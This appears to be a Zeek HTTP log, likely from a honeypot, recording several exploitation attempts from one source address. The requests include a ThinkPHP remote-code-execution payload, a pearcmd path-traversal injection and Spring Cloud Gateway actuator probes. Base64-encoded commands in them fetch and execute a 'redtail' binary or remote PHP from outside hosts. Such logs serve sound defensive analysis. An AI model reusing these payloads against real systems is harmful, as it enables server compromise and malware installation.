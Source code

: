 ````log
1701974799.977956	Ch5ENP298iuu5k136g	45.95.147.236	56948	172.31.5.68	8080	4	GET	54.67.87.80:8080	/index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=eval&vars[1][]='shell_exec(base64_decode("bWtkaXIgLXAgL3RtcC8kKHdob2FtaSkgJiYgY2QgL3RtcC8kKHdob2FtaSk7IHdnZXQgaHR0cDovLzQ1Ljk1LjE0Ny4yMzYvZG93bmxvYWQvcmVkdGFpbC54ODZfNjQ7IGN1cmwgLU8gaHR0cDovLzQ1Ljk1LjE0Ny4yMzYvZG93bmxvYWQvcmVkdGFpbC54ODZfNjQ7IHJtIC1yZiAucmVkdGFpbDsgbXYgcmVkdGFpbC54ODZfNjQgLnJlZHRhaWw7IGNobW9kICt4IC5yZWR0YWlsOyAuLy5yZWR0YWls"));'	-	1.1	Mozilla/5.0	-	0	0	400	Bad Request	-	-	(empty)	-	-	-	-	-	-	-	-	-	-	/index.php?s,function,vars[0],vars[1][]
#separator \x09
#set_separator	,
#empty_field	(empty)
#unset_field	-
#path	http
#open	2023-12-13-13-38-51
#fields	ts	uid	id.orig_h	id.orig_p	id.resp_h	id.resp_p	trans_depth	method	host	uri	referrer	version	user_agent	origin	request_body_len	response_body_len	status_code	status_msg	info_code	info_msg	tags	username	password	proxied	orig_fuids	orig_filenames	orig_mime_types	resp_fuids	resp_filenames	resp_mime_types	cookie_vars	uri_vars
#types	time	string	addr	port	addr	port	count	string	string	string	string	string	string	string	count	count	count	string	count	string	set[enum]	string	string	set[string]	vector[string]	vector[string]	vector[string]	vector[string]	vector[string]	vector[string]	vector[string]	vector[string]
1702501951.691434	CY2d062wJvT4GaKt53	45.95.147.236	42048	172.31.5.68	8080	1	GET	54.67.87.80:8080	/actuator/gateway/routes	-	1.1	Mozilla/5.0	-	0	9226	200	OK	-	-	(empty)	-	-	-	-	-	-	Fs4Z8Z12sCkphcRUUd	-	text/html	-	/actuator/gateway/routes
1702501951.835728	CY2d062wJvT4GaKt53	45.95.147.236	42048	172.31.5.68	8080	2	POST	54.67.87.80:8080	/actuator/gateway/routes/insecure	-	1.1	Mozilla/5.0	-	589	9226	200	OK	-	-	(empty)	-	-	-	FykHzY1l3OSEAgpaR3	-	text/json	FT6VwE2XEnpZE0jWKb	-	text/html	-	/actuator/gateway/routes/insecure
#separator \x09
#set_separator	,
#empty_field	(empty)
#unset_field	-
#path	http
#open	2024-02-03-13-38-47
#fields	ts	uid	id.orig_h	id.orig_p	id.resp_h	id.resp_p	trans_depth	method	host	uri	referrer	version	user_agent	origin	request_body_len	response_body_len	status_code	status_msg	info_code	info_msg	tags	username	password	proxied	orig_fuids	orig_filenames	orig_mime_types	resp_fuids	resp_filenames	resp_mime_types	cookie_vars	uri_vars
#types	time	string	addr	port	addr	port	count	string	string	string	string	string	string	string	count	count	count	string	count	string	set[enum]	string	string	set[string]	vector[string]	vector[string]	vector[string]	vector[string]	vector[string]	vector[string]	vector[string]	vector[string]
1706997785.128685	CnC26R3duTP6Gzuy9e	45.95.147.236	45492	172.31.5.68	80	1	GET	54.67.87.80:80	/?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?eval(base64_decode('aWYoZmlsdGVyX3ZhcihpbmlfZ2V0KCJhbGxvd191cmxfZm9wZW4iKSxGSUxURVJfVkFMSURBVEVfQk9PTEVBTikpe2V2YWwoZmlsZV9nZXRfY29udGVudHMoImh0dHA6Ly85My4xMjMuMzkuNzYveCIpKTt9ZWxzZXskaD1jdXJsX2luaXQoImh0dHA6Ly85My4xMjMuMzkuNzYveCIpO2N1cmxfc2V0b3B0KCRoLENVUkxPUFRfUkVUVVJOVFJBTlNGRVIsMSk7Y3VybF9zZXRvcHQoJGgsQ1VSTE9QVF9IRUFERVIsMCk7ZXZhbChjdXJsX2V4ZWMoJGgpKTtjdXJsX2Nsb3NlKCRoKTt9'));?>+/tmp/index.php	-	1.1	Mozilla/5.0 (Linux; Linux x86_64; en-US) Gecko/20100101 Firefox/122.0	-	0	9226	200	OK	-	-	(empty)	-	-	-	-	-	-	F4Wman2OEgSnzxzIei	-	text/html	-	/?lang,+config-create+/,/<?eval(base64_decode('aWYoZmlsdGVyX3ZhcihpbmlfZ2V0KCJhbGxvd191cmxfZm9wZW4iKSxGSUxURVJfVkFMSURBVEVfQk9PTEVBTikpe2V2YWwoZmlsZV9nZXRfY29udGVudHMoImh0dHA6Ly85My4xMjMuMzkuNzYveCIpKTt9ZWxzZXskaD1jdXJsX2luaXQoImh0dHA6Ly85My4xMjMuMzkuNzYveCIpO2N1cmxfc2V0b3B0KCRoLENVUkxPUFRfUkVUVVJOVFJBTlNGRVIsMSk7Y3VybF9zZXRvcHQoJGgsQ1VSTE9QVF9IRUFERVIsMCk7ZXZhbChjdXJsX2V4ZWMoJGgpKTtjdXJsX2Nsb3NlKCRoKTt9'));?>+/tmp/index.php
1706997785.296389	CnC26R3duTP6Gzuy9e	45.95.147.236	45492	172.31.5.68	80	2	GET	54.67.87.80:80	/index.php?lang=../../../../../../../../tmp/index	-	1.1	Mozilla/5.0 (Linux; Linux x86_64; en-US) Gecko/20100101 Firefox/122.0	-	0	9226	200	OK	-	-	(empty)	-	-	-	-	-	-	FCJlTF4BUaaVeUQVve	-	text/html	-	/index.php?lang
````